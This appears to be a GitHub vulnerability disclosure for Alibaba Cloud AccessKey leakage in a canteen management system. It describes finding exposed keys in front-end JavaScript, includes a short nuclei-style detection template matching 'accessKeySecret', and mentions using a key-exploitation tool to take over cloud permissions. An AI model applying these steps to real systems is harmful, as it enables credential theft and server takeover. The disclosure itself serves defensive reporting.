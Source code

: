 # Canteen
Recurrence of vulnerabilities
There is a problem with Alibaba Cloud OSS AccessKey leakage in the Xiaoniuyun Canteen Smart Canteen Management System. Attackers can obtain sensitive information and control cloud servers by obtaining the AccessKey
Case reproduction As shown, this is a test site

![image](https://github.com/dubin12345/Canteen/assets/144758348/bd2b97b1-6dec-4cfd-979a-df1d0a18c19f)


View the front-end code of the website and find multiple JSs

![image](https://github.com/dubin12345/Canteen/assets/144758348/ab462f66-a804-4f7e-b032-c9d425c50754)


Splice the front-end JS fields and wait for multiple front-end static page URLs

![image](https://github.com/dubin12345/Canteen/assets/144758348/0bc4f9dd-d23d-4465-94be-e8a145482f41)


Detect POC：

id: xiaoniuali-key
 
info:
  name: xiaoniuali-key
  author: dubin
  severity: critical
  tags: xiaoniu
 
requests:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - "accessKeySecret"

    ![image](https://github.com/dubin12345/Canteen/assets/144758348/9d178ced-527d-4f03-978e-fc094a6069b3)

    
    Accessing the vulnerable URL and finding the accessKeyId and accessKeySecret
    
   ![image](https://github.com/dubin12345/Canteen/assets/144758348/e6e0a1d8-9098-4871-81a1-f8f1bb0968d3)

    
    Use Alibaba Cloud Key Leakage Utilization Tool to Obtain Permissions
    
   ![image](https://github.com/dubin12345/Canteen/assets/144758348/c17e8424-ab1c-4b19-81c7-ef90c9ef366b)

    







